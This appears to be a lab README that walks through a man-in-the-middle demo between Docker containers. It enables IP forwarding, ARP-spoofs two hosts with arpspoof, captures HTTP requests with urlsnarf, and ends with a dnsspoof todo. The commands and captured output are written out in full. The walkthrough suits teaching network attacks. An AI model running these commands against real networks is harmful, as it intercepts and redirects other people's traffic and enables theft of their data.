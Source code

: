 # Man in the Middle Attack

Ensure that packet forwarding is enabled.

```bash
sysctl -w net.ipv4.ip_forward=1
# or
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Read current setting

```bash
# sysctl net.ipv4.ip_forward
net.ipv4.ip_forward = 1
```

To set permanently, edit /etc/sysctl.conf:


## Run Demo Attack


```bash
arpspoof -i eth0 -t 172.16.238.12 172.16.238.10
arpspoof -i eth0 -t 172.16.238.10 172.16.238.12
```

Sample arpspoof output

```
root@874e644e242e:/# arpspoof -i eth0 -t 172.16.238.10 172.16.238.12
2:42:ac:10:ee:b 2:42:ac:10:ee:a 0806 42: arp reply 172.16.238.12 is-at 2:42:ac:10:ee:b
2:42:ac:10:ee:b 2:42:ac:10:ee:a 0806 42: arp reply 172.16.238.12 is-at 2:42:ac:10:ee:b
2:42:ac:10:ee:b 2:42:ac:10:ee:a 0806 42: arp reply 172.16.238.12 is-at 2:42:ac:10:ee:b
...
```


Start a server on comp-a

```bash
python3 -m http.server 8080
```

Man in the middle

```
urlsnarf -i eth0
```

Curl from server comp-b

```bash
curl http://comp-a:8080/
```

Captured URL on Man in middle output

```bash
root@874e644e242e:/# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]


maninthemiddle_comp-b_1.maninthemiddle_app_net - - [28/May/2017:16:06:29 +0000] "GET http://comp-a:8080/ HTTP/1.1" - - "-" "curl/7.52.1"
```


Todo:

```
source: https://hub.docker.com/r/vimagick/dsniff/
>>> echo -e '192.168.31.1\twww.baidu.com' >> hosts
>>> dnsspoof -i eth0 -f hosts
```